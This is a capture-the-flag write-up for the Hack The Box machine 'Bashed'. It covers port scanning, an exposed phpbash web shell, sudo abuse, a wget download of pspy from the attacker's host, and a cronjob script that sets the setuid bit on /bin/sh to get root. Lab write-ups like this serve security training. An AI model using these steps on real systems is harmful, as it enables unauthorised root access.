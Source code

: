 ```yaml
---
tags:
  - linux
---
```

# HTB: [Bashed](https://app.hackthebox.com/machines/Bashed)

> [!tip]- Summary with Spoilers
> - I discovered a hidden PHP script called `phpbash.php`, allowing me to execute commands as `www-data`.
> - I used `sudo` to escalate privileges to `scriptmanager`, who had access to the `/scripts` directory.
> - By exploiting a cronjob running as `root`, I injected a malicious Python script to gain a `root` shell.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Jun 28 12:01:48 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oA nmap_tcp t
Warning: 10.10.10.68 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.68)
Host is up (0.097s latency).
Not shown: 65386 closed tcp ports (reset), 148 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only a web server is running.

#### 80/tcp-http

```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Visiting `http://t`:

![](_/htb-bashed-20240628-1.png)

Running `feroxbuster -k -u http://t -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1` uncovered some interesting directories, including `/uploads` (with an empty index) and `/dev`, the latter with some interesting files:

![](_/htb-bashed-20240628-2.png)

## RCE

Footholds don't get much easier than this one. There's a script called `phpbash.php` in a directory that's quickly discoverable via fuzzing. And that's the whole foothold:

![](_/htb-bashed-20240628-3.png)

Conveniently, the flag belongs to another user but it's readable:

```console
$ ls -l /home/arrexel/user.txt
-r--r--r-- 1 arrexel arrexel 33 Jun 28 11:00 /home/arrexel/user.txt
```

## PE

First, I check `sudo` and notice I'm able to become the `scriptmanager` user without a password:

```console
www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home$ sudo -u scriptmanager bash
scriptmanager@bashed:/home$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Using `pspy64` I can see some interesting commands being executed as root:

```console
scriptmanager@bashed:/dev/shm$ wget 10.10.14.10/pspy64
--2024-06-28 11:30:07--  http://10.10.14.10/pspy64
Connecting to 10.10.14.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 964408 (942K) [application/octet-stream]
Saving to: 'pspy64'
pspy64              100%[===================>] 941.80K   540KB/s    in 1.7s
2024-06-28 11:30:09 (540 KB/s) - 'pspy64' saved [964408/964408]

scriptmanager@bashed:/dev/shm$ chmod +x pspy64 && ./pspy64
...
2024/06/28 11:22:01 CMD: UID=0     PID=1227   | python test.py
2024/06/28 11:22:01 CMD: UID=0     PID=1226   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
2024/06/28 11:22:01 CMD: UID=0     PID=1225   | /usr/sbin/CRON -f
```

I confirm that the `/scripts` directory is writable as the current user, and I put a malicious script there to make `/bin/sh` run as `setuid=0`:

```console
scriptmanager@bashed:/dev/shm$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -ld .
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 28 11:25 .
scriptmanager@bashed:/scripts$ echo 'import os;os.system("chmod u+s /bin/sh")' > hax.py
```

Once the cronjob runs, I'm able to run `/bin/sh` with the `-p` option so it doesn't drop the privileges:

```console
scriptmanager@bashed:/scripts$ /bin/sh -p
# id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) groups=1001(scriptmanager)
# cat /root/root.txt
1c4223...
```
